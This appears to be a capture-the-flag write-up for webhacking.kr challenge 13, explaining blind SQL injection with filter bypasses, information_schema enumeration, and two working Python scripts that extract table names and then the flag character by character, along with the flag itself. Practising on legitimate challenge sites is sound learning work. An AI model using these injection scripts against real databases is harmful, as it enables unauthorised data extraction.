










Problem13
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-10//>   
 
If you enter the URL, you can see the below photo.   
      
 
    
This page informs that you should use SQL Injection to get the Flag.   
Then, I tried to enter zero.   

 
    
Next, I tried to enter one.   

   
     
we can confirm that the result is changed by the input.   
If you enter a non-one, the result will be zero.   
Through this, we can consider that <strong>Blind SQL Injection</strong> has to be used this problem to solve.   

Therefore, I tried to attack the Blind SQL Injection.   
    
```    
https://webhacking.kr/challenge/web-10/index.php?no=if(length(database())like(7),1,0)   
union, 0' or 1=1#, 0' or 1=1--, etc ...  
```   
    
But, the union, space, and some characters were all encoded and could not be attempted.    
Then, I found out that Blind SQL Injection will be done by trying as below.    
     
   
    
https://webhacking.kr/challenge/web-10/index.php?no=(0)or(1)    
    
Through this, I was confident and wrote the Query Statement.    

## Supplementary Explanation (See only those who don't know about DB)  
    
``` 
mysql> select schema_name from information_schema.schemata; (= show databases;) 
```    
    
    
    
The database named "information_schema" have a diverse informations.   
As you can see in the picture above, we will test specific situation in the columns table of the information_scema database.  
In Information_scema database, the schemata table contains information such as schema_name and table_name.   
In addition, the columns table has table_schema, table_name, and columnn_name.   

```   
mysql> select min(concat(table_schema," ", table_name," ", column_name)) from information_schema.columns;   
```    

   

This query statement shows the first result information_schema.column table among the combined results of table_schema, table_name, and columnn_name.   
   
```    
mysql> select max(concat(table_schema," ", table_name," ", column_name)) from information_schema.columns;   
```   
     
    
    
This query statement shows the end result information_schema.column table among the combined results of table_schema, table_name, and columnn_name.    
    
#### In other words, Since the limit is not available for protm13, it is necessary to run Blind SQL injection using max, min.    

## Solution
    
### First, Database Name, Table Name, Column Name   

```   
import requests 

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'Your Cookie'} 

def HttpRequest():
    # Find out (Database Name, Table Name, Column Name)
    result = ""
    for i in range(1,40): 
        check = False
        for j in range(48, 128):  # 0~9, a-z, A-Z, etc..
            url = 'https://webhacking.kr/challenge/web-10/?no=ord(substr((select(min(concat(table_schema,00,table_name,00,column_name)))from(information_schema.columns)),{},1))in({})'.format(i,j)
            res = requests.get(url, headers=headers, cookies=cookies) 
            if '<td>1</td>' in res.text: 
                result += chr(j)
                check = True
                break 
        if check == False: 
            break 
    #print(result) 
    arr = result.split("0")
    print("Database Name: {}".format(arr[0])) 
    print("Table Name: {}".format(arr[1]))
    print("Column Name: {}".format(arr[2]))
```   
    
Then, In concatenation, 00 is input to distinguish from each result (because spaces are encoded).    
This work will show the result. ("DB Name, Table Name, Column Name")    
After finishing the working, you can get the flag.    

#### DB Name: chall13
#### Table Name: flag_ab733768
#### Column Name: flag_3a55b31d   

### Second, Blind SQL Injection (Get Flag)     
     
``` 
    #Get Flag 

    result = "" 
    for i in range(1,40): 
        check = False
        for j in range(48,128): 
            url = 'https://webhacking.kr/challenge/web-10/?no=ord(substr((select(max(flag_3a55b31d))from(flag_ab733768)),{},1))in({})'.format(i,j)
            res = requests.get(url,headers=headers, cookies=cookies)
            if '<td>1</td>' in res.text:
                result += chr(j) 
                check = True
                break 
        if check == False: 
            break
    
    print("Flag: {}".format(result))
```

Then, I tried to use min function to get the flag.  
As a result, Flag was shown like below photo. 
         
   
    
But, the flag is an incorrect, so I tried to use max function to get the other flag.   
As a result, Flag was shown like below photo.   
    
    
     
In conclusion, we can know the flag.   
    
#### Flag: FLAG{challenge13gummyclear}   
    
   
     
